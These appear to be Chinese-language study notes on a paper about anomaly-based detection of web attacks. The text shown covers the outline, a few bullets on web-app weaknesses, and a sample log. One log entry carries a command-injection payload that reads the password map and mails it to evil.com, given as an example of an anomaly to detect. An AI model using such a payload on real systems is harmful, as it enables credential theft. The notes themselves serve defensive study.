 # Using Generalization and Characterization Techniques in the Anomaly-based Detection of Web Attacks



- [背景知识和启发](#背景知识和启发)
    - [Web 应用](#web-应用)
    - [Web 安全的异常检测](#web-安全的异常检测)
    - [泛化和表征](#泛化和表征)
- [目标](#目标)
- [体系示意](#体系示意)
- [事件收集](#事件收集)
- [异常检测](#异常检测)
    - [属性长度](#属性长度)
    - [字符分布](#字符分布)
    - [结构推测](#结构推测)
    - [令牌查找](#令牌查找)
- [异常聚合](#异常聚合)
- [异常签名生成](#异常签名生成)
    - [属性长度](#属性长度-1)
    - [字符分布](#字符分布-1)
    - [结构推测](#结构推测-1)
    - [令牌查找](#令牌查找-1)
- [攻击类型推测](#攻击类型推测)
    - [攻击家族](#攻击家族)
        - [目录遍历](#目录遍历)
        - [跨站脚本攻击](#跨站脚本攻击)
        - [SQL 注入](#sql-注入)
        - [缓冲区溢出](#缓冲区溢出)
- [参考资料](#参考资料)



## 背景知识和启发

### Web 应用

* 易于开发、部署和访问
* 安全漏洞严重
    * 对安全问题缺乏意识
    * 功能驱动的开发模式
    * 发布时间紧迫

### Web 安全的异常检测

```
128.111.41.15 "GET /cgi-bin/purchase?itemid=1a6f62e612&cc=mastercard" 200
128.111.43.24 "GET /cgi-bin/purchase?itemid=61d2b836c0&cc=visa" 200
128.111.48.69 "GET /cgi-bin/purchase?itemid=a625f27110&cc=mastercard" 200
131.175.5.35 "GET /cgi-bin/purchase?itemid=7e2877b177&cc=amex" 200
161.10.27.112 "GET /cgi-bin/purchase?itemid=80d2988812&cc=visa" 200
...
128.111.11.45 "GET /cgi-bin/purchase?itemid=109agfe111;ypcat%20passwd|mail%20wily@evil.com" 200
```
